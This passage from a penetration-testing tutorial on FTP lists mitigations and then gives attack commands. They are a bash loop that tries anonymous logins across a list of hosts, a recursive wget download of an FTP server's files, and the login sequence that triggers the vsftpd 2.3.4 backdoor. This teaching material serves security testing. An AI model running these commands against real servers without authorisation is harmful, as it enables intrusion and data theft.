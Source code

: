 ### Mitigation Strategies

When reporting FTP vulnerabilities, consider recommending:

1. **Disable anonymous access** unless explicitly required
2. **Implement FTPS or SFTP** instead of plain FTP
3. **Restrict access** to specific IP addresses
4. **Implement strong password policies**
5. **Run FTP servers in chroot environments**
6. **Keep server software updated**
7. **Implement file integrity monitoring**
8. **Consider modern alternatives** to FTP

### Practical Commands for FTP Testing

#### Automating Anonymous Access Checks

```bash
# Create a script to test multiple hosts
for ip in $(cat targets.txt); do
  echo "Testing $ip"
  timeout 3 bash -c "echo -e 'anonymous\nanonymous@domain.com\nquit' | ftp -n $ip 2>/dev/null"
done
```

#### Downloading All Files Recursively

```bash
# Using wget for recursive download
wget -r ftp://anonymous:anonymous@$ip
```

#### Testing Command Execution Vulnerabilities

For vulnerable versions like vsftpd 2.3.4:

```bash
# Triggering backdoor
telnet <target> 21
USER backdoor:)
PASS any
```

By understanding FTP services and their security implications, penetration testers can effectively identify and exploit misconfigurations and vulnerabilities in these systems.
